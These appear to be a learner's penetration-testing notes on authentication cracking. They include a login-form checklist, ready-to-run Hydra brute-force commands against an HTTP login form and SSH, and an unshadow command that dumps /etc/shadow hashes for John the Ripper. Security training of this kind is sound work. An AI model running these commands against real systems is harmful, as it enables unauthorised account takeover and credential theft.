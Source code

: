 
Authentication Cracking:

- Forms:
	
	- Check the parameters 

	- Check the method of submit (POST)

	- Where it sumbits


- Testing :

	- test the form with any user and password and see the results

	- what type of message the form sends back to the user

	- What happen to the URL when the submit button is clicked ? | Does it redirect to the the same page

Tools used :

- Hydra: use Hydra to bruteforece the login page of website(HTTP)


	>>$ hydra targetWebsite http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt

	  -f -v


	-f tells Hyrdra to stop after it founs the user and the pass



- Hydra: use to Bruteforce SSH login 


	>>$ hydra 192.168.2.4 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -v 

	


	

John

- Linux:

	- To get the Linux hashes, firt unshadow them and use John to crack them

	- unshadow it replace the [X] mark on the /etc/passwd with the actual hash 


### Unshadow:

	- unshadow /etc/passwd /etc/shadow > hashes.txt 

	hashes is the created files to dump all the hashes there


